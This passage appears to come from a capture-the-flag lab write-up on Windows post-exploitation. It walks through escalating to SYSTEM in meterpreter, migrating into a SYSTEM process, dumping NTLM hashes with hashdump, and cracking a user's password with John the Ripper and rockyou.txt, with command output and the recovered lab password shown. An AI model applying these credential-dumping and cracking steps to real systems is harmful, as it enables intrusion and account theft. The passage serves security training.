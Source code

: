 ### • Once the meterpreter shell conversion completes, select that session for use.

> _No answer needed_

### • Verify that we have escalated to NT AUTHORITY\SYSTEM. Run getsystem to confirm this. Feel free to open a dos shell via the command 'shell' and run 'whoami'. This should return that we are indeed system. Background this shell afterwards and select our meterpreter session for usage again.

> _No answer needed_

### • List all of the processes running via the 'ps' command. Just because we are system doesn't mean our process is. Find a process towards the bottom of this list that is running at NT AUTHORITY\SYSTEM and write down the process id (far left column).

> _No answer needed_

### • Migrate to this process using the 'migrate PROCESS_ID' command where the process id is the one you just wrote down in the previous step. This may take several attempts, migrating processes is not very stable. If this fails, you may need to re-run the conversion process or reboot the machine and start once again. If this happens, try a different process next time.

> _No answer needed_

## Task 4 Cracking

### • Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user?

> Jon

```
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

```
riz@kali:~$ john hash --wordlist=/usr/share/wordlists/rockyou.txt --format=NT
Using default input encoding: UTF-8
Loaded 1 password hash (NT [MD4 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=12
Press 'q' or Ctrl-C to abort, almost any other key for status
alqfna22         (Jon)
1g 0:00:00:03 DONE (2024-05-23 22:38) 0.2949g/s 3008Kp/s 3008Kc/s 3008KC/s alr19882006..alpusidi
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed.
```

